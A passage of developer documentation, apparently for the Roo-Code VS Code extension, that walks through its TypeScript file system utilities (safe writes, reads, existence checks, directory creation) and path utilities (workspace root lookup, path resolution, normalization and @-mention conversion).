import * as path from "path";

async function saveTaskMessagesWithUtil(messages: any[], taskDir: string) {
    const filePath = path.join(taskDir, "ui_messages.json");
    // Single call handles directory creation and writing
    await safeWriteFile(filePath, JSON.stringify(messages, null, 2));
    // Error handling might be standardized within safeWriteFile or handled by caller
}
```
The utility `safeWriteFile` encapsulates the directory creation and write operation, simplifying the calling code.

## Key Concepts

1.  **Abstraction Layer:** Provides a higher-level API over Node.js's `fs/promises` module for common file operations.
2.  **Error Handling:** Wraps `fs` calls in `try...catch` blocks, often logging errors using a standardized logger ([`src/utils/logging.ts`](TODO:%20Link%20missing)) and potentially returning specific values (like `undefined` or `false`) on failure instead of letting exceptions propagate unexpectedly.
3.  **Convenience Functions:** Offers functions for combined operations:
    *   `safeWriteFile`: Ensures the target directory exists (`createDirectoriesForFile`) before attempting to write the file (`fs.writeFile`).
    *   `createDirectoriesForFile`: Creates all necessary parent directories for a given file path using `fs.mkdir(..., { recursive: true })`. Returns the list of created directories (useful for cleanup, e.g., in [Chapter 20: DiffViewProvider](20_diffviewprovider.md)).
4.  **Existence Checks (`fileExistsAtPath`, `directoryExistsAtPath`):** Provides simple boolean checks using `fs.access` or `fs.stat`, handling errors gracefully (e.g., returning `false` if checking fails due to permissions or non-existence).
5.  **Asynchronous Nature:** All functions typically return `Promise`s, leveraging `async/await` and the `fs/promises` API for non-blocking I/O.
6.  **Centralization:** Consolidates file system interaction logic in one place (`src/utils/fs.ts`), making it easier to maintain, test, and apply consistent error handling or logging strategies.

## Using the File System Utilities

These utilities are imported and used throughout the extension host code wherever file system interaction is required.

**Example 1: Writing a file (`safeWriteFile`)**

```typescript
// --- File: src/core/task-persistence/taskMessages.ts ---
import * as path from "path";
import { safeWriteFile } from "../../utils/fs"; // Import the utility
import { GlobalFileNames } from "../../shared/globalFileNames";
import { getTaskDirectoryPath } from "../../shared/storagePathManager";
import { ClineMessage } from "../../shared/ExtensionMessage";
import { logger } from "../../utils/logging"; // Use logger

// ... (Read function) ...

export async function saveTaskMessages({ messages, taskId, globalStoragePath }: SaveTaskMessagesOptions) {
	try {
		const taskDir = await getTaskDirectoryPath(globalStoragePath, taskId);
		const filePath = path.join(taskDir, GlobalFileNames.uiMessages);
        // Use safeWriteFile - handles directory creation and write
		await safeWriteFile(filePath, JSON.stringify(messages, null, 2));
	} catch (error) {
        // Catch errors potentially re-thrown by safeWriteFile or path functions
		logger.error(`Failed to save UI messages for task ${taskId}`, { error, ctx: "Persistence" });
	}
}
```
*Explanation:* Instead of manually calling `fs.mkdir` and `fs.writeFile`, `saveTaskMessages` uses the single `safeWriteFile` utility.

**Example 2: Checking File Existence (`fileExistsAtPath`)**

```typescript
// --- File: src/core/config/CustomModesManager.ts ---
import * as path from "path";
import { fileExistsAtPath } from "../../utils/fs"; // Import the utility
import { getWorkspacePath } from "../../utils/path";
// ... other imports ...

export class CustomModesManager {
    // ...

	private async getWorkspaceRoomodes(): Promise<string | undefined> {
		const workspaceRoot = getWorkspacePath();
		if (!workspaceRoot) return undefined;
		const roomodesPath = path.join(workspaceRoot, ".roomodes");
        // Use fileExistsAtPath for a simple boolean check
		return (await fileExistsAtPath(roomodesPath)) ? roomodesPath : undefined;
	}

    // ...
}
```
*Explanation:* `getWorkspaceRoomodes` uses `fileExistsAtPath` to quickly check if the `.roomodes` file exists before attempting to read it.

**Example 3: Creating Directories (`createDirectoriesForFile`)**

```typescript
// --- File: src/integrations/editor/DiffViewProvider.ts ---
import * as path from "path";
import { createDirectoriesForFile } from "../../utils/fs"; // Import the utility
import fs from "fs/promises";
// ... other imports ...

export class DiffViewProvider {
    // ... state properties (createdDirs) ...

	async open(relPath: string): Promise<void> {
        // ... setup ...
        const absolutePath = path.resolve(this.cwd, relPath);

		if (this.editType === "create") {
            // Use utility to create parent directories for the new file
			this.createdDirs = await createDirectoriesForFile(absolutePath);
            // Now safe to write the initial empty file
			await fs.writeFile(absolutePath, "");
		}
        // ... open diff editor ...
    }

    async revertChanges(): Promise<void> {
        // ... logic ...
        if (this.editType === "create") {
            // ... close view, delete file ...
            // Clean up directories created during open()
			for (let i = this.createdDirs.length - 1; i >= 0; i--) {
				try { await fs.rmdir(this.createdDirs[i]); } catch (e) { /* ignore if not empty */ }
			}
        }
        // ... rest of revert ...
    }
    // ...
}
```
*Explanation:* When opening the diff view for a *new* file, `createDirectoriesForFile` ensures the necessary parent folders exist. The list of created directories is stored so `revertChanges` can attempt to clean them up if the user cancels the creation.

## Code Walkthrough

### File System Utilities (`src/utils/fs.ts`)

```typescript
// --- File: src/utils/fs.ts ---
import * as fs from "fs/promises"; // Use promises API
import * as path from "path";
import { logger } from "./logging"; // Import logger

/**
 * Checks if a file exists at the given path.
 * Handles errors gracefully, returning false if access fails for any reason.
 * @param filePath - The absolute path to the file.
 * @returns True if the file exists and is accessible, false otherwise.
 */
export async function fileExistsAtPath(filePath: string): Promise<boolean> {
	try {
		// Use fs.access with F_OK to check for existence.
		// This is generally preferred over fs.stat for simple existence checks
		// as it might be slightly faster if only existence is needed.
		await fs.access(filePath, fs.constants.F_OK);
		return true;
	} catch (error) {
        // Any error (ENOENT, EACCES, etc.) means we treat it as not existing/accessible
		if (error.code !== 'ENOENT') {
            // Log errors other than "file not found" as they might indicate other issues
            logger.debug(`Error accessing path ${filePath}`, { error, ctx: "fs.exists" });
        }
		return false;
	}
}

/**
 * Checks if a directory exists at the given path.
 * @param dirPath - The absolute path to the directory.
 * @returns True if the directory exists and is accessible, false otherwise.
 */
export async function directoryExistsAtPath(dirPath: string): Promise<boolean> {
	try {
		const stats = await fs.stat(dirPath);
		return stats.isDirectory(); // Check if it's specifically a directory
	} catch (error) {
		// If stat fails (e.g., path doesn't exist or permissions error), it's not a directory we can use
        if (error.code !== 'ENOENT') {
            logger.debug(`Error stating directory ${dirPath}`, { error, ctx: "fs.dirExists" });
        }
		return false;
	}
}

/**
 * Creates all necessary parent directories for a given file path recursively.
 * Returns an array of the directories that *might* have been created (best effort).
 * @param filePath - The absolute path to the file whose directories should be created.
 * @returns A promise resolving to an array of the directory paths that were potentially created leading up to the final directory.
 */
export async function createDirectoriesForFile(filePath: string): Promise<string[]> {
	const dirPath = path.dirname(filePath);
    const createdDirs: string[] = [];

	try {
        // Manual check and creation to track created dirs accurately (fs.mkdir recursive return value varies)
        let currentPath = dirPath;
        const pathPartsToCreate = [];
        while (!(await directoryExistsAtPath(currentPath))) {
            pathPartsToCreate.unshift(path.basename(currentPath)); // Store part to create
            const parentPath = path.dirname(currentPath);
            if (parentPath === currentPath) break; // Reached root
            currentPath = parentPath;
        }

        // Now create recursively using fs.mkdir
		await fs.mkdir(dirPath, { recursive: true });
        logger.debug(`Ensured directory exists: ${dirPath}`, { ctx: "fs.createDir" });

        // Reconstruct the list of potentially created directories based on pathPartsToCreate
        let accumulatingPath = currentPath; // Start from the first existing parent
        for (const part of pathPartsToCreate) {
            accumulatingPath = path.join(accumulatingPath, part);
            createdDirs.push(accumulatingPath);
        }

	} catch (error) {
        logger.error(`Failed to create directories for ${filePath}`, { error, ctx: "fs.createDir" });
		throw error; // Re-throw error if directory creation fails critically
	}
    return createdDirs; // Return list of created paths for potential cleanup
}

/**
 * Safely writes data to a file, ensuring the directory exists first.
 * @param filePath - The absolute path to the file.
 * @param data - The data to write (string or Buffer).
 * @returns A promise resolving when the file is written.
 */
export async function safeWriteFile(filePath: string, data: string | Buffer): Promise<void> {
	try {
        // Ensure parent directories exist (ignore createdDirs return value here)
		await createDirectoriesForFile(filePath);
        // Write the file
		await fs.writeFile(filePath, data);
        logger.debug(`Safely wrote file: ${filePath}`, { ctx: "fs.writeFile" });
	} catch (error) {
        logger.error(`Failed to safely write file ${filePath}`, { error, ctx: "fs.writeFile" });
		throw error; // Re-throw error for caller to handle
	}
}

// Example of safeReadFile utility
/**
 * Safely reads text content from a file.
 * Returns undefined if the file doesn't exist or reading fails.
 * @param filePath - The absolute path to the file.
 * @param encoding - The encoding to use (defaults to 'utf8').
 * @returns The file content as a string, or undefined on error/non-existence.
 */
export async function safeReadFile(filePath: string, encoding: BufferEncoding = 'utf8'): Promise<string | undefined> {
    try {
        // Check existence first to provide clearer log/return value than readFile's ENOENT
        if (!await fileExistsAtPath(filePath)) {
            logger.debug(`File not found for safe read: ${filePath}`, { ctx: "fs.readFile" });
            return undefined;
        }
        const content = await fs.readFile(filePath, encoding);
        logger.debug(`Safely read file: ${filePath}`, { ctx: "fs.readFile" });
        return content;
    } catch (error) {
        logger.error(`Failed to safely read file ${filePath}`, { error, ctx: "fs.readFile" });
        return undefined; // Return undefined on any error
    }
}
```

**Explanation:**

*   **Imports:** Uses `fs/promises` for async operations, `path` for manipulation, and the custom `logger`.
*   **`fileExistsAtPath`:** Uses `fs.access` with `F_OK`. Logs errors other than `ENOENT` as debug messages. Returns `false` on any error.
*   **`directoryExistsAtPath`:** Uses `fs.stat` and checks `stats.isDirectory()`. Logs errors other than `ENOENT` as debug messages. Returns `false` on any error.
*   **`createDirectoriesForFile`:** Gets the target directory using `path.dirname`. It now includes logic to walk *up* the path, checking existence and storing potentially non-existent parent parts. It then calls `fs.mkdir(dirPath, { recursive: true })` to ensure creation and reconstructs the list of created directories for the return value. Re-throws errors if `mkdir` fails.
*   **`safeWriteFile`:** Orchestrates the common pattern: `await createDirectoriesForFile(filePath)` then `await fs.writeFile(filePath, data)`. Includes logging and re-throws errors.
*   **`safeReadFile` (Example):** Demonstrates a read utility. It checks existence first using `fileExistsAtPath` for a potentially cleaner return value/log message, then reads using `fs.readFile`. It returns `undefined` on any error (including non-existence).

## Internal Implementation

The utilities are relatively thin wrappers around `fs/promises` methods, primarily adding error handling, logging, and common operation sequences (like ensure dir exists before write).

**Step-by-Step (`safeWriteFile`):**

1.  `safeWriteFile(filePath, data)` is called.
2.  It `await`s `createDirectoriesForFile(filePath)`.
    *   `createDirectoriesForFile` calls `path.dirname(filePath)`.
    *   It walks up the path to find the first existing parent (using `directoryExistsAtPath` which calls `fs.stat`).
    *   It `await`s `fs.mkdir(dirPath, { recursive: true })`.
    *   Node.js interacts with the OS file system to create directories. If an error occurs (e.g., permissions), `fs.mkdir` rejects.
    *   If `mkdir` rejects, `createDirectoriesForFile` catches, logs, and re-throws.
    *   If `mkdir` resolves, `createDirectoriesForFile` calculates and resolves with `createdDirs`.
3.  If `createDirectoriesForFile` resolved successfully, `safeWriteFile` proceeds.
4.  It `await`s `fs.writeFile(filePath, data)`.
5.  Node.js interacts with the OS to write the data to the file (creating or overwriting). If an error occurs, `fs.writeFile` rejects.
6.  If `writeFile` rejects, `safeWriteFile` catches, logs, and re-throws.
7.  If `writeFile` resolves, `safeWriteFile` logs success and resolves.

**Sequence Diagram (`safeWriteFile`):**



## Modification Guidance

Modifications usually involve adding new common file operations or adjusting error handling or logging behavior.

1.  **Adding `safeDeleteFile`:**
    *   **Define:** Add `async function safeDeleteFile(filePath: string): Promise<boolean>` to `src/utils/fs.ts`.
    *   **Implement:**
        ```typescript
        export async function safeDeleteFile(filePath: string): Promise<boolean> {
            try {
                await fs.unlink(filePath);
                logger.debug(`Safely deleted file: ${filePath}`, { ctx: "fs.delete" });
                return true;
            } catch (error) {
                if (error.code === 'ENOENT') {
                    // File didn't exist, treat as success in 'safe' delete
                    logger.debug(`File not found for safe delete: ${filePath}`, { ctx: "fs.delete" });
                    return true;
                }
                logger.error(`Failed to safely delete file ${filePath}`, { error, ctx: "fs.delete" });
                return false; // Return false for other errors
            }
        }
        ```
    *   **Export & Usage:** Export the function and call it where needed (e.g., task cleanup).

2.  **Changing Error Handling in `safeReadFile`:**
    *   **Modify:** Instead of returning `undefined` on all errors, perhaps re-throw specific errors like `EACCES` (permission denied) while still returning `undefined` for `ENOENT` (not found).
        ```typescript
        // Inside catch block of safeReadFile
        if (error.code === 'ENOENT') {
            logger.debug(...) return undefined;
        } else {
            logger.error(...) throw error; // Re-throw other errors
        }
        ```
    *   **Impact:** Callers would need to add `try...catch` blocks if they use `safeReadFile` now.

3.  **Adding Logging Levels:**
    *   Adjust the log levels used (e.g., `logger.debug` vs `logger.info` vs `logger.warn`) based on the expected frequency or severity of the event being logged.

**Best Practices:**

*   **Use `fs/promises`:** Standardize on the promise-based API.
*   **Absolute Paths:** Utilities should generally expect absolute paths for direct `fs` operations unless explicitly designed for relative paths with a clear base directory.
*   **Graceful Errors vs. Exceptions:** Decide on a consistent error handling strategy. For utilities prefixed with `safe...`, returning `undefined`/`false` or ignoring `ENOENT` errors is common. For core operations where failure is unexpected, re-throwing might be better.
*   **Logging:** Use the shared `logger` with appropriate levels and context (`ctx: "fs"` or similar).
*   **Focus:** Keep utilities focused on single FS operations or simple, common compositions.
*   **Security:** Be mindful when utilities take paths derived from user or AI input. While these helpers don't execute code, ensure paths are appropriately validated or constrained elsewhere before being passed to functions like `safeWriteFile` or `safeDeleteFile` to prevent writing/deleting outside intended areas (e.g., using path normalization/relativity checks).

**Potential Pitfalls:**

*   **Incorrect Path Handling:** Passing relative paths where absolute are expected, or vice-versa.
*   **Permissions Errors (`EACCES`, `EPERM`):** File operations failing due to lack of OS permissions. Utilities should catch and report/handle these.
*   **Race Conditions:** Sequences of operations (e.g., check-then-write) are not inherently atomic.
*   **Large Files:** Reading large files fully can cause issues. Use streaming for large file processing if needed (outside scope of these basic utils).
*   **Symbolic Links:** Behavior depends on the specific `fs` function (`stat` vs `lstat`, `readFile` follows links). Ensure behavior matches requirements.
*   **Error Swallowing:** Returning `undefined`/`false` on errors can sometimes hide underlying problems if callers don't check the return value appropriately. Re-throwing might be safer in critical paths.

## Conclusion

The File System Utilities in `src/utils/fs.ts` provide essential, robust wrappers around common Node.js file system operations. By centralizing logic for existence checks, directory creation, safe writing, and error handling, they simplify file interactions throughout the Roo-Code extension host, making the code cleaner, more reliable, and easier to maintain. They are a fundamental building block for features involving task persistence, configuration management, checkpointing, and tool interactions that read or write files.

Building upon file system operations, the next chapter looks at utilities specifically designed for manipulating and working with file *paths*: [Chapter 43: Path Utilities](43_path_utilities.md).
---
# Chapter 43: Path Utilities

Continuing from [Chapter 42: File System Utilities](42_file_system_utilities.md), which covered helpers for reading, writing, and checking files, this chapter focuses on a related set of essential helpers: utilities for manipulating and normalizing file **paths**.

## Motivation: Consistent and Reliable Path Handling

Working with file paths across different operating systems (Windows, macOS, Linux) and contexts (VS Code workspace, user input, internal storage) can be tricky due to variations in:

*   **Path Separators:** Windows uses backslashes (`\`), while macOS and Linux use forward slashes (`/`).
*   **Absolute vs. Relative Paths:** Code needs to reliably convert between absolute paths (full path from root) and paths relative to the workspace root.
*   **URI vs. File Path:** VS Code APIs often use `vscode.Uri` objects (e.g., `file:///c:/path/to/file`), while Node.js `fs` modules typically use standard OS file path strings (`C:\path\to\file`). Conversion is often needed.
*   **Normalization:** Ensuring paths don't contain redundant separators (`//`, `\\`), handle `.` and `..` segments correctly, and use consistent casing (where relevant).
*   **Workspace Root:** Reliably determining the root path of the currently open VS Code workspace.

Implementing path manipulation and normalization logic directly wherever needed leads to duplication and potential inconsistencies. A centralized set of Path Utilities ensures that path handling is consistent, correct, and robust across the Roo-Code extension.

**Central Use Case:** The `mentionRegex` ([Chapter 24: Mention Handling](24_mention_handling.md)) matches a file mention like `@/src\components/button.tsx`. Before using this path to read the file or pass it to other functions, Roo-Code needs to:
1.  Extract the path part: `src\components/button.tsx`.
2.  Resolve it relative to the workspace root to get an absolute path: `C:\Users\Me\Project\src\components\button.tsx`.
3.  Potentially normalize separators for internal consistency or API calls: `C:/Users/Me/Project/src/components/button.tsx`.
4.  Or, conversely, take an absolute path from a VS Code API and convert it to a workspace-relative path with POSIX separators for display or storage: `/src/components/button.tsx`.

The Path Utilities provide functions like `getWorkspacePath`, `resolvePath`, `normalizePath`, and `relativePath` to handle these conversions reliably.

## Key Concepts

1.  **Node.js `path` Module:** The foundation for most path operations. Node.js's built-in `path` module provides cross-platform functions for joining (`path.join`), resolving (`path.resolve`), normalizing (`path.normalize`), getting relative paths (`path.relative`), getting directory/base names (`path.dirname`, `path.basename`), and accessing platform-specific separators (`path.sep`, `path.posix`, `path.win32`).

2.  **VS Code Workspace Context:** Accessing the root path(s) of the currently open workspace is crucial for resolving relative paths. Utilities use `vscode.workspace.workspaceFolders` to find the appropriate root.

3.  **URI vs. Path String Conversion:** VS Code APIs often deal with `vscode.Uri` objects, especially for identifying documents. Utilities might need to convert between `Uri.fsPath` (filesystem path string) and standard path strings. The `vscode-uri` library is sometimes used for robust URI parsing/manipulation outside the main VS Code API context.

4.  **Normalization (`normalizePath`):** Ensuring paths use a consistent format, typically:
    *   **POSIX Separators:** Converting all backslashes (`\`) to forward slashes (`/`) for internal consistency and compatibility with web/Unix-style paths used in mentions or configuration.
    *   **Resolving `.` and `..`:** Using `path.normalize` or `path.resolve` to simplify paths.

5.  **Workspace Root Determination (`getWorkspacePath`):** A reliable function to get the filesystem path of the primary workspace folder. It typically checks `vscode.workspace.workspaceFolders` and returns the `uri.fsPath` of the first folder, handling cases where no folder is open.

6.  **Relative Path Calculation (`relativePath`):** Converts an absolute path into a path relative to the workspace root, usually with normalized POSIX separators. Uses `path.relative`.

7.  **Absolute Path Calculation (`resolvePath`):** Converts a potentially relative path (often assumed relative to the workspace root) into an absolute filesystem path. Uses `path.resolve`.

8.  **Path Comparison (`arePathsEqual`):** Compares two path strings for equality, taking into account potential case-insensitivity on certain platforms (like Windows) and normalizing separators before comparison.

9.  **Readable Path (`getReadablePath`):** Formats a path for display. If it's within the workspace, shows the normalized relative path; otherwise, shows the normalized absolute path.

10. **Mention Path Conversion (`convertToMentionPath`):** Converts an absolute path or `vscode.Uri` into the `@/relative/path` format used for mentions ([Chapter 24: Mention Handling](24_mention_handling.md)).

11. **Location (`src/utils/path.ts`):** These utility functions are typically grouped together in a dedicated file like `src/utils/path.ts`.

## Using the Path Utilities

These are static helper functions imported and used wherever path manipulation is required.

**Example 1: Getting Workspace Root (`CustomModesManager`)**

```typescript
// --- File: src/core/config/CustomModesManager.ts ---
import * as path from "path";
import { getWorkspacePath } from "../../utils/path"; // Import utility

export class CustomModesManager {
    // ...
	private async getWorkspaceRoomodes(): Promise<string | undefined> {
		// Reliably get the workspace root path
		const workspaceRoot = getWorkspacePath();
		if (!workspaceRoot) return undefined;
		const roomodesPath = path.join(workspaceRoot, ".roomodes"); // Use standard path.join
		// ... check existence using fileExistsAtPath from fs utils ...
	}
    // ...
}
```
*Explanation:* Uses `getWorkspacePath` to robustly determine the workspace root before constructing the path to `.roomodes`.

**Example 2: Normalizing and Resolving Mention Path (`parseMentions`)**

```typescript
// --- File: src/core/mentions/index.ts ---
import * as path from "path";
import { getWorkspacePath, resolvePath, normalizePath, relativePath } from "../../utils/path"; // Import utils
// ... other imports ...

// ... inside parseMentions ...
    for (const mention of mentions) {
        if (mention.startsWith("/")) {
            const mentionPath = mention.slice(1); // e.g., "src/file.ts" or "src\file.ts"
            const cwd = getWorkspacePath();
            if (!cwd) continue; // Skip if no workspace

            // Resolve to absolute path for file system access
            const absolutePath = resolvePath(mentionPath, cwd);
            if (!absolutePath) continue; // Could not resolve

            // Get normalized relative path for attributes/display
            const normalizedRelative = relativePath(absolutePath, cwd);

            // Use absolutePath for file system access
            content = await getFileOrFolderContent(absolutePath, cwd); // Pass absolute path

            // Use normalizedRelative for attributes
            attrs = ` path="${normalizedRelative}"`;
            // ...
        }
        // ...
    }
// ... inside getFileOrFolderContent(absolutePath, cwd) ...
    // Use relativePath for display in messages if needed
    const relativePathForDisplay = relativePath(absolutePath, cwd);
    // ... use relativePathForDisplay in error messages or returned content ...
```
*Explanation:* `resolvePath` converts the mention path (relative to `cwd`) into an absolute path for reliable file system access. `relativePath` is used to get a consistently formatted relative path (with `/` separators) for attributes or display.

**Example 3: Comparing Paths (`DiffViewProvider`)**

```typescript
// --- File: src/integrations/editor/DiffViewProvider.ts ---
import * as vscode from "vscode";
import { arePathsEqual } from "../../utils/path"; // Import utility

// ... inside openDiffEditor ...
    return new Promise<vscode.TextEditor>((resolve, reject) => {
        const disposable = vscode.window.onDidChangeActiveTextEditor((editor) => {
            // Compare the activated editor's document path with the target file URI path
            if (editor && arePathsEqual(editor.document.uri.fsPath, fileUri.fsPath)) {
                disposable.dispose();
                resolve(editor);
            }
        });
        // ... execute command ...
    });
```
*Explanation:* Uses `arePathsEqual` to reliably compare the path of the newly active editor's document (`editor.document.uri.fsPath`) with the target file URI path (`fileUri.fsPath`), correctly handling potential case differences on Windows.

**Example 4: Converting to Mention Path (UI)**

```typescript
// --- File: webview-ui/src/components/chat/ChatTextArea.tsx ---
// ... imports ...
import { convertToMentionPath } from '@/utils/path-mentions'; // Util for UI side
import { useExtensionState } from '@/context/ExtensionStateContext';

// ... inside handleDrop ...
    const { cwd } = useExtensionState(); // Get workspace root from context
    const droppedFiles = Array.from(e.dataTransfer.files);
    const fileMentions = droppedFiles
        .map(file => convertToMentionPath(file.path, cwd)) // Convert path to mention format
        .filter(mention => mention !== undefined);

    if (fileMentions.length > 0) {
        // Insert mentions into text area
        const mentionText = fileMentions.join(" ");
        // ... insert text ...
    }
```
*Explanation:* The UI uses `convertToMentionPath` (likely defined in `webview-ui/src/utils/path-mentions.ts` but conceptually similar to the utility in `src/utils/path.ts`) along with the `cwd` from the context to convert absolute paths obtained from dropped files into the correct `@/relative/path` mention format before inserting them into the input.

## Code Walkthrough

### Path Utilities (`src/utils/path.ts`)

```typescript
// --- File: src/utils/path.ts ---
import * as path from "path";
import * as vscode from "vscode";
import { URI } from "vscode-uri"; // Use vscode-uri for robust URI handling

/**
 * Gets the file system path of the first workspace folder, if available.
 * Caches the result for subsequent calls.
 */
let cachedWorkspacePath: string | undefined | null = null; // Use null to indicate 'checked but not found'
export function getWorkspacePath(): string | undefined {
	// Return cached path if already determined
	if (cachedWorkspacePath !== null) {
		return cachedWorkspacePath;
	}

	const workspaceFolders = vscode.workspace.workspaceFolders;
	if (workspaceFolders && workspaceFolders.length > 0) {
		// Use the URI of the first workspace folder
		cachedWorkspacePath = workspaceFolders[0].uri.fsPath;
		return cachedWorkspacePath;
	}
	// Set cache to undefined if no workspace folder found
	cachedWorkspacePath = undefined;
	return undefined;
}

/**
 * Normalizes a file path to use POSIX forward slashes ('/').
 * Handles null or undefined input.
 * @param filePath The file path to normalize.
 * @returns The normalized path string, or an empty string if input is null/undefined.
 */
export function normalizePath(filePath: string | undefined | null): string {
	if (!filePath) {
		return "";
	}
	return filePath.replace(/\\/g, "/");
}

/**
 * Resolves a potentially relative path against a base directory (usually workspace root).
 * Returns an absolute path.
 * @param relativeOrAbsolutePath Path to resolve.
 * @param baseDir The base directory (defaults to workspace root retrieved via getWorkspacePath).
 * @returns The resolved absolute path, or undefined if baseDir cannot be determined and input is relative.
 */
export function resolvePath(relativeOrAbsolutePath: string | undefined | null, baseDir?: string): string | undefined {
	if (!relativeOrAbsolutePath) return undefined;

	const effectiveBaseDir = baseDir ?? getWorkspacePath();
	if (!effectiveBaseDir) {
		// If path is already absolute, return it, otherwise cannot resolve
		return path.isAbsolute(relativeOrAbsolutePath) ? relativeOrAbsolutePath : undefined;
	}
	// Resolve the path against the base directory using Node.js path.resolve
	// This correctly handles cases where relativeOrAbsolutePath might already be absolute.
	return path.resolve(effectiveBaseDir, relativeOrAbsolutePath);
}

/**
 * Calculates the path relative to the workspace root.
 * Normalizes the output to use POSIX separators.
 * @param absolutePath The absolute path to make relative.
 * @param baseDir The base directory (defaults to workspace root retrieved via getWorkspacePath).
 * @returns The normalized relative path. If baseDir is unknown or path is outside baseDir,
 *          returns the normalized absolute path as a fallback.
 */
export function relativePath(absolutePath: string | undefined | null, baseDir?: string): string {
	if (!absolutePath) return "";

	const effectiveBaseDir = baseDir ?? getWorkspacePath();
	if (!effectiveBaseDir) {
		// Cannot determine relative path, return normalized original path
		return normalizePath(absolutePath);
	}

	// Calculate relative path using Node.js path.relative
	const relPath = path.relative(effectiveBaseDir, absolutePath);

	// If path.relative returns an empty string, it means the paths are the same directory.
	// If it starts with '..', it means the absolute path is outside the base directory.
	// In these cases, returning the normalized absolute path might be clearer than "." or "../...".
	// However, for consistency with mentions (@/), let's return the relative path even if '..'.
    // The empty string case should perhaps return "." ? Let's stick with relative path result for now.

	// Normalize separators
	return normalizePath(relPath);
}

/**
 * Checks if two file paths refer to the same file, accounting for case-insensitivity
 * on platforms like Windows. Normalizes paths before comparison.
 * Handles null or undefined inputs.
 * @param path1 First path string.
 * @param path2 Second path string.
 * @returns True if the paths are considered equal, false otherwise.
 */
export function arePathsEqual(path1: string | undefined | null, path2: string | undefined | null): boolean {
	if (!path1 || !path2) {
		return false; // If either path is null/undefined, they aren't equal
	}

	// Normalize using Node.js path.normalize (handles ., .., extra separators)
	// and then our normalizePath (handles slashes)
	const normalizedPath1 = normalizePath(path.normalize(path1));
	const normalizedPath2 = normalizePath(path.normalize(path2));

	// Compare case-insensitively on Windows, case-sensitively otherwise
	if (process.platform === "win32") {
		return normalizedPath1.toLowerCase() === normalizedPath2.toLowerCase();
	} else {
		return normalizedPath1 === normalizedPath2;
	}
}

/**
 * Gets a user-friendly readable path. If inside workspace, returns normalized relative path.
 * Otherwise, returns the normalized absolute path.
 * Handles null or undefined inputs.
 * @param cwd The current working directory (workspace root). Defaults to getWorkspacePath().
 * @param absOrRelPath The path to format (can be absolute or relative).
 * @returns A readable path string with POSIX separators, or an empty string if input path is invalid.
 */
export function getReadablePath(cwd: string | undefined, absOrRelPath: string | undefined | null): string {
    if (!absOrRelPath) return "";
    const effectiveCwd = cwd ?? getWorkspacePath();
    // Resolve the input path to ensure it's absolute for comparison
    const resolvedPath = path.resolve(effectiveCwd || "", absOrRelPath); // Use empty string if no cwd

    if (effectiveCwd && (resolvedPath.startsWith(effectiveCwd + path.sep) || resolvedPath === effectiveCwd)) {
        // Inside workspace, return relative path
        return relativePath(resolvedPath, effectiveCwd);
    } else {
        // Outside workspace (or no cwd), return normalized absolute path
        return normalizePath(resolvedPath);
    }
}

/**
 * Converts a file system path (string or vscode.Uri) into the @-mention format (e.g., @/path/to/file).
 * Ensures the path is relative to the workspace root (cwd).
 * Returns undefined if the path is outside the workspace, invalid, or cwd is unavailable.
 * @param filePath The path string or vscode.Uri.
 * @param cwd The workspace root path (defaults to getWorkspacePath()).
 * @returns The mention string (e.g., '@/src/file.ts') or undefined.
 */
export function convertToMentionPath(
	filePath: string | vscode.Uri | URI | undefined | null,
	cwd?: string | undefined,
): string | undefined {
	if (!filePath) return undefined;
	const effectiveCwd = cwd ?? getWorkspacePath();
	if (!effectiveCwd) return undefined; // Need cwd for relativity

	let absPath: string;
	try {
        // Handle different input types (string, vscode.Uri, vscode-uri.URI)
		if (typeof filePath === "string") {
			// Resolve relative to CWD to get absolute path safely
			absPath = path.resolve(effectiveCwd, filePath);
		} else if (filePath instanceof vscode.Uri || filePath instanceof URI) {
			absPath = filePath.fsPath;
		} else {
			return undefined; // Invalid input type
		}
	} catch (error) {
        console.error("Error resolving path for mention:", error);
        return undefined; // Error during path resolution
    }


	// Calculate relative path using our utility (handles normalization)
	const relPath = relativePath(absPath, effectiveCwd);

	// Check if path is actually outside the workspace (relativePath starts with '..')
    // or if it's the workspace root itself (empty string or '.')
	if (relPath.startsWith("..") || relPath === "" || relPath === ".") {
		return undefined; // Not a valid mention path within the workspace
	}

	// Add the @/ prefix
	return `@/${relPath}`;
}
```

**Explanation:**

*   **`getWorkspacePath`:** Uses `vscode.workspace.workspaceFolders` to find the `.uri.fsPath` of the first folder. Includes simple caching (`cachedWorkspacePath`) to avoid repeated lookups.
*   **`normalizePath`:** Simple regex replace (`\\` -> `/`). Handles null/undefined.
*   **`resolvePath`:** Gets `effectiveBaseDir` (using `getWorkspacePath` as default). Uses `path.resolve(baseDir, path)` which correctly handles absolute or relative inputs against the base. Returns `undefined` if base cannot be found and input is relative.
*   **`relativePath`:** Gets `effectiveBaseDir`. Uses `path.relative(baseDir, absPath)` and then `normalizePath`. Returns normalized absolute path as fallback if `baseDir` is unknown.
*   **`arePathsEqual`:** Handles `null`/`undefined`. Normalizes both paths using `path.normalize` and `normalizePath`. Uses `toLowerCase()` comparison only on `win32` platform.
*   **`getReadablePath`:** Resolves the input to absolute. Checks if it's within the `effectiveCwd`. Returns the result of `relativePath` if inside, otherwise the normalized absolute path.
*   **`convertToMentionPath`:** Handles string, `vscode.Uri`, or `vscode-uri.URI` input. Resolves to absolute path. Calculates normalized `relativePath`. Returns `undefined` if the path is outside the workspace (starts with `..`) or is the root itself. Prepends `@/` if valid.

## Internal Implementation

The utilities primarily map to functions within Node.js's `path` module, adding workspace context awareness, normalization (especially POSIX separators), and platform-specific handling (case sensitivity in `arePathsEqual`).

**Step-by-Step (`relativePath`):**

1.  `relativePath(absolutePath, baseDir)` is called.
2.  Check if `absolutePath` is falsy. If yes, return `""`.
3.  Check if `baseDir` was provided. If not, call `getWorkspacePath()` -> `effectiveBaseDir`.
4.  If `effectiveBaseDir` is `undefined`, call `normalizePath(absolutePath)` and return.
5.  Call `path.relative(effectiveBaseDir, absolutePath)` -> `relPathString`. Node.js calculates the relative path string using OS-specific logic.
6.  Call `normalizePath(relPathString)` -> `normalizedRelPath`. Converts `\` to `/`.
7.  Return `normalizedRelPath`.

**Step-by-Step (`convertToMentionPath`):**

1.  `convertToMentionPath(filePath, cwd)` is called.
2.  Check `filePath`. If falsy, return `undefined`.
3.  Get `effectiveCwd` (using `cwd` or `getWorkspacePath`). If falsy, return `undefined`.
4.  Determine `absPath` based on `filePath` type (string, Uri), using `path.resolve` for strings relative to `effectiveCwd`. Handle errors.
5.  Call `relativePath(absPath, effectiveCwd)` -> `relPath`.
6.  Check if `relPath` starts with `".."` or is `""` or `"."`. If yes, return `undefined`.
